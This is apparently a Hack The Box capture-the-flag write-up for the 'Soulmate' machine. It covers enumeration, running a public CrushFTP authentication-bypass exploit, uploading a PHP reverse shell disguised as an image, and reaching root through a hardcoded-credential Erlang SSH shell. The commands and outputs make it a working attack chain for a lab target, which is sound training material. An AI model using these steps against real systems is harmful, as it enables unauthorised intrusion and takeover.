 ```yaml
---
clayout: ctf
title: Soulmate
date: 2025-09-10
image: /ctf/hack-the-box/machines/soulmate/info-card.png
type: Hack The Box

ctf:
    - name: Soulmate
      link: https://app.hackthebox.com/machines/721
      thumbnail: /ctf/hack-the-box/machines/soulmate/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/721
          thumbnail: /ctf/hack-the-box/machines/soulmate/pwned.png
---
```


## Machine Overview

The target machine **Soulmate** exposes a web application and an FTP service. Exploiting the FTP service (CrushFTP) leads to arbitrary file management, which we leverage to upload and rename a PHP reverse shell. From there, we pivot through a custom Erlang-based SSH service to escalate from `www-data` → `ben` → `root`.

## Enumeration

### Nmap Scan

We begin with a standard scan:

```bash
nmap -sC -sV -oN nmap.txt 10.10.11.86
```

**Results:**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

**Key findings:**

* **22/tcp** → OpenSSH 8.9p1
* **80/tcp** → nginx 1.18.0, redirecting to `http://soulmate.htb/`

## Web Enumeration

### Hostname Resolution

Since the HTTP service redirects, we add the hostname to `/etc/hosts`:

```bash
echo "10.10.11.86 soulmate.htb" | sudo tee -a /etc/hosts
```

### Website Analysis

Visiting `http://soulmate.htb` reveals a login/registration portal with a user profile feature.

![Soulmate Login Page](/ctf/hack-the-box/machines/soulmate/home.png)

### Virtual Host Enumeration

We brute-force for additional vhosts:

```bash
gobuster vhost \
  -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
  -u http://soulmate.htb \
  -t 20 \
  --append-domain
```

**Result:**

```bash
Found: ftp.soulmate.htb
```

Navigating to `http://ftp.soulmate.htb` redirects to a **CrushFTP** login page.

![ftp.soulmate.htb](/ctf/hack-the-box/machines/soulmate/ftp-soulmate.png)

## Exploiting CrushFTP

CrushFTP is a web-based FTP server. Searching for vulnerabilities, we find a recent exploit:
[CVE-2025-31161](https://github.com/Immersive-Labs-Sec/CVE-2025-31161).

```bash
python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80
```

**Exploit result:**

```bash
[+] Exploit Complete. You can now login with:
    Username: AuthBypassAccount
    Password: CorrectHorseBatteryStaple.
```

We log in as admin:

![FTP dashboard](/ctf/hack-the-box/machines/soulmate/ftp-dashboard.png)

From **Admin → User Management → Server Files**, we can browse `/app/webProd/` — the web root.

![FTP server's file](/ctf/hack-the-box/machines/soulmate/ftp-server-file.png)

## Initial Foothold

Through the profile page, we can upload an image. By uploading a PHP reverse shell disguised as `.png`, then renaming it to `.php` via the FTP interface, we obtain RCE:

```bash
http://soulmate.htb/assets/images/profiles/random_1757609495.php
```

![FTP shell](/ctf/hack-the-box/machines/soulmate/ftp-rename.png)

Set up a listener:

```bash
nc -lnvp 4444
```

Triggering the shell gives us a foothold:

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation (www-data → ben)

### Enumeration

Checking `/etc/passwd` shows a local user `ben`:

```bash
root:x:0:0:root:/root:/bin/bash
ben:x:1000:1000:,,,:/home/ben:/bin/bash
```

Running **pspy64** reveals a root process executing a custom Erlang script:

```bash
/usr/local/lib/erlang_login/start.escript ...
```

### Erlang Script Analysis

The script configures an SSH daemon on port 2222 and hardcodes credentials:

```bash
{user_passwords, [{"ben", "HouseH0ldings998"}]}
```

### SSH Access

We can now SSH directly as `ben`:

```bash
ssh ben@10.10.11.86
# password: HouseH0ldings998
```

```bash
ben@soulmate:~$ id
uid=1000(ben) gid=1000(ben) groups=1000(ben)
```

> [!IMPORTANT] User flag
> `/home/ben/user.txt`

## Privilege Escalation (ben → root)

From `ben`, we test the local Erlang SSH service:

```bash
nc 127.0.0.1 2222
SSH-2.0-Erlang/5.2.9
```

Logging in:

```bash
ssh ben@127.0.0.1 -p 2222
```

This drops us into an Erlang shell:

```bash
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1>
```

From here, we can execute OS commands:

```bash
(ssh_runner@soulmate)1> os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
```

We now have **root execution**.

> [!IMPORTANT] Root flag
> `/root/root.txt`
